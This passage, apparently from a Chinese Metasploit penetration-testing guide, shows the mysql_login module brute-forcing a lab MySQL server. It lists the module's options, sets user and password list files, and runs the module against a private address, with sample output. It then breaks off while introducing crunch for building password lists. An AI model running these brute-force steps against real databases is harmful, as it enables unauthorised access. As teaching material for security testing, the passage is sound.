 让我们讨论一个涉及一些额外输入的特定扫描仪模块。 `mysql_login`扫描器模块是一个蛮力模块，它扫描目标上 MySQL 服务器的可用性，并通过蛮力攻击尝试登录数据库：

```
msf > use auxiliary/scanner/mysql/mysql_login
msf auxiliary(mysql_login) > show options
Module options (auxiliary/scanner/mysql/mysql_login):
Name Current Setting Required Description
---- --------------- -------- -----------
BLANK_PASSWORDS true yes Try blank pas..
BRUTEFORCE_SPEED 5 yes How fast to..
PASSWORD no A specific password
PASS_FILE no File containing..
RHOSTS yes The target address.
RPORT 3306 yes The target port..
STOP_ON_SUCCESS false yes Stop guessing...
THREADS 1 yes The number of..
USERNAME no A specific user..
USERPASS_FILE no File containing..
USER_FILE no File containing..
VERBOSE true yes Whether to print.. 
```

正如您所看到的，我们可以通过这个模块传递许多不同的参数。我们越充分利用模块的功能，成功渗透测试的机会就越大。我们可以提供一个完整的用户名和密码列表，模块可以在目标机器上使用和尝试。

让我们向模块提供以下信息：

```
msf auxiliary(mysql_login) > set USER_FILE /users.txt
USER_FILE => /users.txt
msf auxiliary(mysql_login) > set PASS_FILE /pass.txt
PASS_FILE => /pass.txt 
```

现在我们准备使用暴力。最后一步是选择目标并提供运行命令以执行模块：

```
msf auxiliary(mysql_login) > set RHOSTS 192.168.56.101
RHOSTS => 192.168.56.101
msf auxiliary(mysql_login) > run
[*] 192.168.56.101:3306 - Found remote MySQL version 5.0.51a
[*] 192.168.56.101:3306 Trying username:'administrator' with password:'' 
```

输出显示模块通过首先查找目标上是否存在 MySQL 服务器来启动进程。一旦找到答案，它就开始尝试通过外部文本文件提供给它的用户名和密码的组合。这也是当前场景中 Metasploit 最广泛使用的模块化操作之一。已经开发了许多自动暴力模块来破解弱密码。

## 还有更多。。。

让我们来看一下使用 Metasploit 生成密码文件的一种快速简便的方法。在蛮力渗透测试期间，拥有一个合适的密码文件列表会很有帮助。

### 使用“Crunch”生成密码

对于任何暴力攻击，我们必须有一个相当大的密码文件列表，我们将在这些类型的攻击中使用这些文件。密码列表可以从在线资源中获取，或者笔测试仪可以选择使用 John the Ripper 生成密码列表。或者，还可以使用 Backtrack 的“crunch”实用程序根据所使用的字符生成这样的列表。您可以在 `/pentest/passwords/crunch`中找到“crunch”实用程序。如果您的 Backtrack 版本中缺少它，那么您可以通过在终端窗口中传递以下命令来安装它：
